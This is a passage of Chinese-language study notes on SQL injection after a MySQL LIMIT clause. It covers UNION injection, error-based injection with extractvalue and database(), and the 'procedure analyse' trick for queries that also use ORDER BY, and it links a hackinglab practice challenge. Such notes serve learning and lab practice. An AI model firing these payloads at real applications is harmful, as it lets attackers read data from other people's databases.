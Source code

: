 ```
select * from users limit 0,1 union select 1,2,3;
```

> 注意此处的列一定要对上。否则的话会抛出一个报错



也可以通过这种方式来进行报错注入：

```
select * from users limit 0,1 union select 1,2,(extractvalue(1,concat(0x7e,(database()))));
```

> 其实正常的union注入也可以使用报错
>
> ```
> select * from users union select 1,2,(extractvalue(1,concat(0x7e,(database()))));
> ```







##### 有order by



> 详细讲解此篇的[博客](https://www.freebuf.com/articles/web/57528.html)和[这个](https://www.jianshu.com/p/6c1420a7a7d9)

> 此题的实战是hackinglab的注入关第四题[链接](http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1)



此处就只讲解怎么用，不说原理是什么。

> ps.其实我自己也不懂。等有时间看看这个的原理







payload为`procedure analyse`

`analyse()`函数中有两个参数，正常的话一个参数作为报错注入，另一个参数就写`1`

> 之所以使用`procedure analyse`是因为有order by 的话，无法使用union注入，应为mysql 的语法规则定义了，union必须在order by 之前。而现在的情况是在order by  和limit 之后进行注入。



> 一般默认`limit`后的`0`,`1`分别是两颗传参点。也就是注入点。



###### 报错注入

payload：

```
select * from users order by id limit 0,1 procedure analyse(1,extractvalue(1,concat(0x7e,(select database()))));
```
